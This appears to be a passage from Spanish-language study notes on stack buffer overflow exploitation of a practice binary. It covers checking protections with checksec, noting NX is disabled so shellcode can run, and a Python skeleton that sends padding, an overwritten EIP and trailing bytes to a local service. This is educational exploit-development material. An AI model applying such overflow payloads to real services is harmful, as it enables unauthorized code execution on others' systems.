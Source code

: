 ![](<../images/Pasted image 20240914171109.png>)
### Checksec

En este punto en el gdb introduciremos la acción `checksec` para comprobar que protecciones tiene el binario, y vemos que **NX** (Not Executable/Not Execute) esta desactivado por lo que podemos cargar nuestro shellcode directamente en el binario.

![](<../images/Pasted image 20240914175835.png>)

En este punto lo que debemos hacer es hacer es ver a donde se dirige todo lo que introducimos después del **EIP**, para ello añadiremos la variable **after_eip**:

```python
#!/usr/bin/env python3

import socket

ip_addr = "127.0.0.1"
port = 20201

offset = 288
before_eip = b"A"*offset
eip = b"B"*4
after_eip = b"C"*300

payload = before_eip + eip + after_eip
```